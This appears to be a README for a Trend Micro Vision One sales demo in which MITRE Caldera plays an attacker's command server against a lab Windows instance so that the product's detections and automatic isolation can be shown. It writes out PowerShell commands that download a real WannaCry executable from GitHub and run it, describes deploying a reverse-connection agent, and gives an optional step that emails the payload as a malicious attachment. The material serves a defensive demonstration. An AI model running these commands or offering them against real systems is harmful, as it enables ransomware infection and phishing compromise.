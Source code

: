 # Trend Micro Vision One Demo
---------------
__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox


--------------------------------
__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region). The following information has to be provided:

-Stack name - Name of the stack you are creating (example XDR-Demo)

-KeyName - KeyPar to be used when creating the EC2 Instances

-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided

--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)

--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts


-------------------------------
__Testing the demo environment:

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).


--------------------------------
__What to expect from this demo:

This demo script was created to demonstrate the following use case:

+ Attacker trying to get the control of an Windows Instance

+ Attacker is using Mitre Caldera as C&C Server

+ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.

+ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer

+ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.

+ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.

+ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.


--------------
__How to demo:

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Open the Mitre Caldera Management Console, and create a new malicious payload

--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform

--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)

--Copy the Powershell script created for this agent

4- Execute the powershell script on the Windows Instance

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.



-------
Optional (in case you want to demonstrate it in conjunction with CAS)

4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step

4.1- Send an email with the malicious attachment to the target user


